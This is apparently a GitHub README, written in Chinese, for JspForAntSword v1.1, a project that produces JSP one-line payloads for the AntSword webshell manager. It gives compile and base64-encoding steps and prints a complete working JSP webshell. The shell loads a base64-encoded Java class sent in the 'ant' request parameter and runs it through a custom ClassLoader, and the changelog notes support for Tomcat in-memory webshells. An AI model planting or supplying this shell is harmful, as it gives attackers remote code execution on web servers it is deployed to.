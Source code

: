 # JspForAntSword  v1.1
中国蚁剑JSP一句话Payload

详细介绍： https://yzddmr6.tk/posts/antsword-diy-3/

环境： jdk1.6  tomcat7

## 编译

### 手动编译

```
javac -cp "D:/xxxx/lib/servlet-api.jar;D:/xxx/lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径跟lib路径后，在当前目录下运行，即可对当前路径下所有.java文件进行编译以及生成base64格式的payload。

```
python3 build.py
```

## Shell

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

其中`pageContext`可以替换为`request`或者`response`，以实现对Tomcat内存Webshell的兼容

## 更新日志

### v1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release